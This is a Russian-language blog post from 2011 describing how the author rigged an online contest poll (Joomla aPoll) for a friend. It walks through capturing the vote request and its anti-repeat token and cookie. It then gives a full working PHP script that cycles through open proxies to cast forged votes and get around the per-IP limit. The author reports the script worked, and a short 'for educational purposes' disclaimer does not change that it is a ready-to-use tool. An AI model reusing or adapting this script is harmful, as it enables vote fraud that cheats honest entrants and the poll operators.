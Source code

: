 ```yaml
---
date: 2011-03-11 21:45
layout: post
title: Накрутка голосов на PHP на пальцах
comments: true
language: ru
---
```


Мои знакомые постоянно участвуют в различных конкурсах. При этом они
привлекают к этому всех своих друзей и знакомых, рассылая в аське или
вконтакте просьбы «Проголосуй за меня тут», «Проголосуй за фото» и т.д. Думаю,
такая ситуация знакома многим. И вот однажды я решил помочь одной своей
подруге и вот что из этого получилось.

_**Внимание!** Данный пост написан исключительно для ознакомления. Используйте
данную информацию только для разработки методов борьбы с накруткой при
разработке собственных приложений. Играйте честно, друзья, и не нарушайте
закон!_

Для голосования не требовалось регистрации. Единственное ограничение было в
том, что с одного IP можно голосовать не чаще, чем раз в 3 часа. Это
значительно облегчало задачу. Первым делом я полез в куки браузера, чтобы
почистить их. Конечно, вероятность такой халявы была очень мала, но я всё таки
попробовал:) Очевидно, что IP адрес и время последнего голоса хранятся на
сервере. Значит мы будем работать со списком прокси-серверов, чтобы обойти
это.

## План

Если в двух словах, то нам нужно определить, какие данные посылаются на сервер
при нажатии на кнопку «Голосовать», и потом автоматизировать это, чтобы такие
же данные отсылались быстро, часто и без рук:) По мере сложности нам придётся
делать дополнительные действия перед отправкой данных. Всё зависит от того,
что там для нас приготовили разработчики модуля голосования...

## Исследуем HTML

Откроем исходный текст страницы с голосованием. Нас интересует тэг `<form>`,
его атрибуты `action` и `method`, а так же все вложенные тэги `<input>`. Судя
по всему это модуль aPoll для Joomla. Но на самом деле это не важно, потому
что я опишу тут общие принципы, которые применимы для любого подобного
механизма голосования.

{% img center /images/voter/voter1.png %}

Всё содержимое формы будет отправлено на сервер по нажатию на кнопку
`type=submit`. Способ отправки данных формы на сервер указан в атрибуте
`method`. Для отправки данных через форму используют методы `GET` или `POST`
(в протоколе HTTP существуют ещё и другие методы, о которых вкратце можно
почитать, например, [тут](http://ru.wikipedia.org/wiki/HTTP)). Данные уходят
по адресу, указанному в `action`, в виде пар `key=value`. Если клиентская
сторона веб-приложения реализована с применением ajax, то определить метод и
адрес будет немного сложнее, но дальнейшие наши действия почти не будут
отличаться (возможно, я расскажу об этом следующий раз).

Назначение почти всех `<input>` понятно. В глаза бросается только последний
неведомый параметр:
    
    <input type="hidden" name="dd972dd7998aca5da8349c281a530424" value="1" />

Если обновить страницу, то имя этого параметра изменится.

Поскольку используется метод `POST`, я предполагаю, что запрос будет выглядеть
примерно так:
    
    POST /path/to/voting/script HTTP/1.1
    Host: www.target.ru
    Connection: keep-alive
    Content-Length: 89
    Content-type: application/x-www-form-urlencoded; charset=UTF-8
    Accept: text/html  
    voteid=83&option=com_apoll&id=20&format=raw&view=apoll&dd972dd7998aca5da8349c281a530424=1

## Смотрим за пакетами

Чтобы получить точные данные, которые посылает браузер, я воспользовался
Wireshark\`ом. О снифферах и особенно о wifi-снифферах я расскажу
подробнее в следующий раз.

Запускаем Wireshark, настраиваем фильтр так, чтобы отлавливались только пакеты
от нас до нужного хоста и обратно (лишний мусор нам ни к чему). Ещё можно
отключить картинки в браузере - это уменьшит объём трафика между нами и
сервером и улучшить читаемость списка отловленных пакетов. Удаляем в браузере
куки для этого сайта, открываем страницу с формой голосования, выбираем нужный
пункт, нажимаем «Голосовать». Останавливаем захват пакетов. Ищем пакет `POST`:

{% img center /images/voter/voter2.png %}

Тут всё, как я и предполагал, за исключением строки:

    Cookie: 0c8b34dacf4f14182867180a1aaba5c4=47e0e642a25f8b86d926b6f2cf9eef55

Теперь понятно зачем нужен тот неведомый параметр со страшным именем.
Это простейшая защита от накрутки, которая лишь наполовину усложнит наш скрипт
- нельзя тупо отправить POST-запрос на сервер, не загрузив перед этим страницу
с голосованием. Откуда нам получить эту куку? Ищем пакет `GET` с запросом
самой страницы. Следом за ним ищем ближайший `HTTP/1.1 200 OK`:

{% img center /images/voter/voter3.png %}

Из него нам нужна только строка `Set-Cookie`. Это указание браузеру сохранить
куку `key=value` для текущего сайта, а точнее для его части, указанной в
`path` (в нашем случае - это корень).

Теперь все звенья цепи собраны, можно начинать!

## Реализация

Общая картина у нас теперь сложилась. Нам нужно запросить `GET` страницу с
формой голосования, вытащить из заголовка куку и тот неведомый параметр
из формы. Затем сформировать `POST` запрос с кукой, неведомым
параметром и другими параметрами, которые остаются неизменными. Всё это нужно
выполнять в цикле по файлу со списком прокси-серверов.

Выполнение скрипта будет занимать много времени - соответственно, его нельзя
будет расположить у какого нибудь веб-хостера. Никаким шеллом я, к сожадению,
не владею. Поэтому запускать буду на локальной машине:) Это крайне
небезопасно, и я никому не рекомендую так делать!

Где достать список прокси? Для меня это тоже было проблемой. В сети много
мест, где бесплатно публикуют списки прокси-серверов. Половина из них просто
не работает. Две трети оставшихся ни разу не анонимны, но для наших целей
вполне подойдут, так как всё же меняют `REMOTE_ADDR`. По началу я проверял
найденные списки в программах прокси-чекерах. Но потом забил на это, потому
что написанный скрипт сам переходил к следующему прокси из списка, если
текущий не отвечал и вываливался по таймауту. Вид списков прокси серверов
может быть разным: где-то адрес и порт могут разделяться двоеточием, где-то
пробелами или табуляцией. В таком случае придётся подогнать разбор строк в
скрипте под нужный формат записи.

После вечера кодирования и отладки у меня получилось так:

{% codeblock lang:php %}
<?php  
function PostRequest($url, $proxy_host, $proxy_port, $data, $cookie)
{
    $url = parse_url($url);  
    $host = $url['host'];
    $path = $url['path'];  
    $fp = fsockopen($proxy_host, $proxy_port);
	if (!$fp)
		return;  
    fputs($fp, "POST $path HTTP/1.1\r\n");
    fputs($fp, "Host: $host\r\n");
    fputs($fp, "Connection: close\r\n");
    fputs($fp, "Referer: $url\r\n");
	fputs($fp, "Accept: text/javascript, text/html, application/xml, text/xml, */*\r\n");
	fputs($fp, "Content-Length: ".strlen($data)."\r\n");
	fputs($fp, "Origin: $host\r\n");
	fputs($fp, "X-Requested-With: XMLHttpRequest\r\n");
	fputs($fp, "Content-type: application/x-www-form-urlencoded; charset=UTF-8\r\n");
	fputs($fp, "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/534.13 (KHTML, like Gecko) Chrome/9.0.597.98 Safari/534.13\r\n");
	fputs($fp, "Cookie: $cookie\r\n\r\n");
    fputs($fp, $data);  
    $result = '';
    while(!feof($fp)) {
        $result .= fgets($fp, 128);
    }
    fclose($fp);  
    $result = explode("\r\n\r\n", $result, 2);
    $header = isset($result[0]) ? $result[0] : '';
    $content = isset($result[1]) ? $result[1] : '';  
    return array($header, $content);
}  
function GetRequest($url, $proxy_host, $proxy_port)
{
    $url = parse_url($url);  
    $host = $url['host'];
    $path = $url['path'];  
    $fp = fsockopen($proxy_host, $proxy_port);
	if (!$fp)
		return;  
    fputs($fp, "GET $path HTTP/1.1\r\n");
    fputs($fp, "Host: $host\r\n");
    fputs($fp, "Connection: close\r\n");
	fputs($fp, "Accept: text/javascript, text/html, application/xml, text/xml, */*\r\n");
	fputs($fp, "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/534.13 (KHTML, like Gecko) Chrome/9.0.597.98 Safari/534.13\r\n\r\n");  
    $result = '';
    while(!feof($fp)) {
        $result .= fgets($fp, 128);
    }
    fclose($fp);  
    $result = explode("\r\n\r\n", $result, 2);
    $header = isset($result[0]) ? $result[0] : '';
    $content = isset($result[1]) ? $result[1] : '';  
    return array($header, $content);
}  
$handle = @fopen("C:/proxylist.txt", "r");
if ($handle)
{
    while (($buffer = fgets($handle)) !== false)
	{
		$result = explode("\t", $buffer, 3);
		$proxy_host = isset($result[0]) ? $result[0] : '';
		$proxy_port = isset($result[1]) ? $result[1] : '';
		$proxy_port = str_replace("\n", "", $proxy_port);  
		echo "$proxy_host : $proxy_port - ";  
		if ($proxy_host != '' && $proxy_port != '')
		{
			list($header, $content) = GetRequest(
				"http://www.target.ru/road/to/hell",
				$proxy_host, $proxy_port
			);  
			if (preg_match('/Set-Cookie: (.+);/', $header, $matches))
			{
				$cookie = $matches[1];  
				if (preg_match('/<div><input type="hidden" name="(.+)" value="1" \/><\/div><\/form>/', $content, $matches))
				{
					$fuck = $matches[1];
					echo $fuck;
					$data = "voteid=83&option=com_apoll&id=20&format=raw&view=apoll&$fuck=1";  
					list($header, $content) = PostRequest(
						"http://www.target.ru/road/to/fucking/hell/fuck/yeah",
						$proxy_host, $proxy_port,
						$data, $cookie
					);
					echo " - OK\n";
				}
				else
				{
					echo "Fuck fail\n";
				}
			}
			else
			{
				echo "Cookie fail\n";
			}
		}
    }  
    fclose($handle);
}  
?>
{% endcodeblock %}

Не самый красивый код, но главное работает :)

**UPD (21.03.2011):** На сайте всё таки зачесались - сделали обязательной регистрацию для голосования :) Я переделывать скрипт не буду. Свою задачу он сделал, когда это было нужно. Требование регистрации усложняет задачу на порядок, но принцип накрутки всё равно останется таким же. 

